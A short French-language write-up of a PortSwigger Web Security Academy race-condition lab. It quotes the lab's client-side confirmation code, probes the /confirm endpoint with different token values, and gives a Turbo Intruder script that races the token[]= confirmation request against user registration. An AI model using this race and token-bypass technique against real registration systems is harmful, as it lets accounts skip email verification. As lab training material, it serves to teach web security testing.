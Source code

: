 # Lab

https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction

## Payload

Dans `/resources/static/users.js` il y a :

```js
const confirmEmail = () => {
    const container = document.getElementsByClassName('confirmation')[0];

    const parts = window.location.href.split("?");
    const query = parts.length == 2 ? parts[1] : "";
    const action = query.includes('token') ? query : "";

    const form = document.createElement('form');
    form.method = 'POST';
    form.action = '/confirm?' + action;

    const button = document.createElement('button');
    button.className = 'button';
    button.type = 'submit';
    button.textContent = 'Confirm';

    form.appendChild(button);
    container.appendChild(form);
}
```

Ce qui nous montre qu'un service `/confirm` existe et qu'il est possible de lui passer un paramètre `token`.

Si on essaie la requête :

- Avec un token random, on obtient `Incorrect token: a`
- Avec un token vide `token=`, on obtient `Forbidden`
- Avec un token vide `token[]=`, on obtient `Invalid token: Array`
- Sans token, on obtient `Missing parameter: token`

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )


    confirmReq = r'''POST /confirm?token[]= HTTP/2
Host: 0af400d803cdc17783faabd200060054.web-security-academy.net
Cookie: phpsessionid=gtcCUgNiHfbSp9cG3geD6zP5pSRartLb
Content-Length: 0
'''
    
    for i in range(20):
        username = 'uu' + str(i)
        engine.queue(target.req, username, gate=str(i))
        for j in range(50):
            engine.queue(confirmReq, gate=str(i))
        engine.openGate(str(i))


def handleResponse(req, interesting):
    table.add(req)
```